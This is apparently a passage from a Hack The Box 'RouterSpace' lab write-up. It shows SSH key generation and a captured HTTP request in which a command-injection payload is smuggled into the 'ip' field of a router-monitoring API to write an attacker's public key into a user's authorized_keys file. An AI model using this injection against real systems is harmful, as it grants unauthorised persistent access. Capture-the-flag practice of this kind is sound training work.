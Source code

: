 
Send it over to burp


# Foothold
SSH Keygen
```
┌──(kali㉿kali)-[~/Documents/HTB/RouterSpace]                      
└─$ ssh-keygen -f mykey       
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in mykey 
Your public key has been saved in mykey.pub
The key fingerprint is:
SHA256:dgsgargddrftSDFeEGeGSEdDGGFXZDGuXQ0GPlDHysDQ kali@kali                                                                                                                                                                                
The key's randomart image is:
...
```
Send it to burp

```

```
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1

accept: application/json, text/plain, */*

user-agent: RouterSpaceAgent

Content-Type: application/json

Content-Length: 616

Host: routerspace.htb

Connection: Keep-Alive

Accept-Encoding: gzip



{"ip":"0.0.0.0; echo 'ssh-rsa AAAASLDKHFjaswkjdfksajdhsdKAvdPa49+KqTxB9kjshadfKJLLKJSHfkjhsdafsp8v9+wFHyf53iRBPe94vTUfSPi8C480oBWSpvtNN9xWwA6F8TlfqSno9ICxljjPlWtEIjPub9vOtgJKHSDfkjhsadkjhsadfKJHSDKfjhcV+jPaslkdflKKJHfkjsahdfkjhgsakdjh/4cbk4+mX5GmJP/2i/QEJ1oK2bFa5sJOh6J5m8xxJGknXG9fUua3U1Oaon2Bp/JKHSDflkjhawrfkjHSDFKJ8+VV5KAz2dDjxwFg0rIOSIDHJFkjwahedfkjlshldlflkjLIUDFhsf0c5s3g+snysqs= paul' > /home/paul/.ssh/authorized_keys"}

------------------------------
RESPONSE
HTTP/1.1 200 OK

X-Powered-By: RouterSpace

X-Cdn: RouterSpace-4166
